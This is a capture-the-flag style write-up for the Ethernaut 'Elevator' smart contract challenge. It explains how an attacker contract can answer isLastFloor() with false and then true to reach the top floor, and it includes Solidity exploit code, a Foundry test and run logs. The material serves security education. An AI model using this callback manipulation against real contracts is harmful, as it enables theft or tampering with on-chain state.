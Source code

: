 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `11-Elevator` Challenge, You Should Try To find a Way to Go to Top of the Building Successfully.

`11-Elevator` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2)

<br>

# How did i Complete This Challenge?

<br>

I made a little change `Elevator` Contract Which is, i Changed Interface Name from `Building` to `IBuilding`.

So Now Looks Like This:

```javascript
    contract Elevator {
        bool public top;
        uint256 public floor;

        function goTo(uint256 _floor) public {
            IBuilding building = IBuilding(msg.sender);


            if (!building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }
```

When We Analyze the `Elevator` Contract, We See that it uses an interface. Right Away, You Should Ask Yourself: What's The Purpose of Using Interface in This Contract or Even in Soliidty?

One of the Main Reasons is to Interact With Smart Contracts Specific Functions But Using Less Gas.

Now When You See This line: `IBuilding building = IBuilding(msg.sender)`, it means the `msg.sender` is a Contract, Which We Use a Interface to Interact with `isLastFloor()` function.

Now This `isLastFloor` Function it Should Work in a Way to Successfully Pass the If Statement. Since `isLastFloor()` Returns a Boolean Value and the If Statement itself Requires the
condition to be `true`, in order to Execute Rest of the Code, this Indicates that returned value from `isLastFloor()` function, should be `false` and then we flip it back to `true` When
we use `!` with `false`. (`if (!false == true) {execute rest of the code}`)

Now What the Contract Should do is return `true` if it's Last Floor of the Building and return `false` if it's not. (kinda)

But One thing You Probably Didn't Notice is, if the `_floor` number we pass in, is actually the Last Floor of the Building, it will return `true` and When We Combine `!` with `true` (`!true`) it will flip back to `false` which the condition of the if statement will be `false`, resulting in Not Executing the Rest of the code inside the if statement.

What Attacker Can do Here is, if `_floor` number is Passed in is the Last Floor, Return `false` first time, so the code inside the if statement get's executed and return `true` second time
if the `_floor` Number Passed in, is The Last Floor of the Building.

So Basically We Want this Line `if (!building.isLastFloor(_floor))}` condition equals to `true` by `isLastFloor()` function returning `false` and `top = building.isLastFloor(floor)` to be
`true`.

So it looks Like this:

```javascript
    if (!building.isLastFloor(_floor)) {    
        floor = _floor;
        top = building.isLastFloor(floor);
    }

    if (!false) {    
        floor = _floor;
        top = true;
    }
```

Attacker Can Use Similar Contract Like This In Order to Go Top Of the Building Successfully:

```javascript
    contract Building is IBuilding {

    Elevator elevator;
    uint256 public lastFloor = 10;
    bool isFirstCall = true;

    constructor(Elevator _elevator) {
        elevator = _elevator;
    }

    function useElevator(uint256 _floor) external {
        elevator.goTo(_floor);
    }

    function isLastFloor(uint256 _floor) external returns (bool isLastFloorBoolean) {

        if (_floor != lastFloor) {
            isLastFloorBoolean = false;
        } else if (_floor == 10) {

            if (isFirstCall) {
                isFirstCall = false;
                return false;

            } else if (!isFirstCall) {
                isFirstCall = true;
                return true;

            }
        }
    }
}
```


Here's the Test i Wrote inside the `Elevator.t.sol` Which You Can Run to Exploit the `Elevator` Contract:

```javascript
        function testElevatorIsWorkingCorrectly() external {
        Building building = new Building(elevator);
        
        console.log("The Last Floor in this Building is 10.");
        console.log("Lets Use Elevator To Go To Floor 3.");

        building.useElevator(3);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 3);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), false);


        console.log("Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.");

        building.useElevator(10);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 10);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), true);
    }
```

You Can Run it with Command Below:

```javascript
    forge test --match-test testElevatorIsWorkingCorrectly -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        The Last Floor in this Building is 10.
        Lets Use Elevator To Go To Floor 3.
        We Are Currently On Floor:  3
        is This the Top of the Building?  false
        Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.
        We Are Currently On Floor:  10
        is This the Top of the Building?  true
```